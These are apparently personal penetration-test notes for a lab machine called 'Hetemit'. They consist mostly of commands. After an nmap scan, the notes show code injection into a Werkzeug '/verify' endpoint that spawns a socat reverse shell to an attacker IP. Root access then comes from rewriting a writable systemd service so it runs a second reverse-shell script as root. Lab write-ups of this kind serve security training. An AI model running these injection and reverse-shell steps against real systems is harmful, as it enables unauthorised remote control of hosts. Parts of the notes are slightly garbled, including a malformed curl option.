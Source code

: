 # Hetemit
# date 19/8/2023
# ip 192.168.244.117


# Nmap
21/tcp    open  ftp         syn-ack vsftpd 3.0.3
22/tcp    open  ssh         syn-ack OpenSSH 8.0 (protocol 2.0)
80/tcp    open  http        syn-ack Apache httpd 2.4.37 ((centos))
139/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
50000/tcp open  http        syn-ack Werkzeug httpd 1.0.1 (Python 3.6.8)



# Wekzeug (192.168.244.117:50000)
{'/generate', '/verify'}
curl -X POST http://192.168.244.117:50000/verify — data "code=2*2"
curl -X POST --data "code=os" http://192.168.244.117:50000/verify
# exploitation
nc -nvlp 80
 curl -X POST --data "code=os.system('socat TCP:192.168.45.174:80 EXEC:sh')" http://192.168.244.117:50000/verify

# priv esc
find /etc -type f -writable 2> /dev/null
sudo -l
cat /etc/systemd/system/pythonapp.service

Specifically, we modified the ExecStart and User lines, and removed the WorkingDirectory= line.

[cmeeks@hetemit ~]$ cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT




[cmeeks@hetemit ~]$ cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
socat TCP:192.168.118.8:18000 EXEC:sh
EOT

[cmeeks@hetemit ~]$ chmod +x /home/cmeeks/reverse.sh



 nc -lvnp 18000          

 sudo reboot